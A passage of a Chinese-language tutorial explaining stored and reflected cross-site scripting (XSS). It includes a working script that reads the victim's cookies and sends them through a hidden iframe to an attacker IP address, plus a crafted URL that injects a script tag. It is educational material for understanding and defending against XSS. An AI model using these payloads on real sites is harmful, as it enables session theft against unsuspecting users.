 XSS,全称Cross Site Scripting(据说是为了和`css`保持区分所以才缩写为XSS),中文常译作跨站脚本攻击.一般表现为用户利用网络应用的漏洞,注入可执行代码,从而影响到其他打开被注入脚本网页的用户.

XSS攻击基本分为储存型,反射型以及基于DOM这几种情况.

### 储存型(Stored XSS)

储存型的XSS是最常见,而且也是最具破坏性的XSS攻击.思考以下场景.

有一个论坛网站,允许用户发表文章并在对应文章下进行评论,而有恶意的用户如在某热门文章下评论时注入了脚本,而网站又没有对其进行过滤或转移,将其作为一个正常的评论保存在了数据库中,那之后打开这篇文章的所有用户都将在无意中执行该恶意脚本.

这是储存型XSS一个典型的例子.而攻击的威胁性则取决于执行脚本的目的.小打小闹如注入的脚本诸如`alert('fool!')`之类的会影响用户体验.糟糕的可能会窃取用户信息而后进行更进一步的攻击.

```html
这是评论的内容,如果下面的内容没有被转义的话你是看不到的,因为会被浏览器识别为脚本并执行.
<script type="text/javascript">
  (function(window, document) {
      // 构造泄露信息用的 URL
      var cookies = document.cookie;
      var xssURIBase = "http://192.168.123.123/myxss/";
      var xssURI = xssURIBase + window.encodeURI(cookies);
      // 建立隐藏 iframe 用于通讯
      var hideFrame = document.createElement("iframe");
      hideFrame.height = 0;
      hideFrame.width = 0;
      hideFrame.style.display = "none";
      hideFrame.src = xssURI;
      // 开工
      document.body.appendChild(hideFrame);
  })(window, document);
</script>
<!-- 实例代码来自网上例子 -->
```

> 注意,上面用到了iframe来提交,是因为同源策略限制的缘故,而这种提交方式,也是后面要讲的CSRF的其中一种攻击模式.

这样用户的信息(cookie)已经被攻击者获取了.

### 反射型(Reflected XSS)

反射型XSS不会存储在数据库中,就范围而言可能不会达到存储型XSS那样广,反射型XSS表现为构造有问题的url,然后诱使其他用户打开该问题url,达到注入脚本的目的.一般会出现在服务端会根据query参数来渲染前端模板.

参考下面的例子

```html
<!-- url: http://mydomain.com/page?link=link&name=name -->
<!-- 伪造url: http://mydomain.com/page?link=link&name=you-are-fool</a><script>alert('xss')</script> -->

<!-- 一下模板语法仅为举例说明 -->
<!-- 后端模板 -->
<a href="{ link }">{ name }</a>
<!-- 渲染过后 -->
<a href="link">you-are-fool</a><script>alert('xss')</script></a>
```
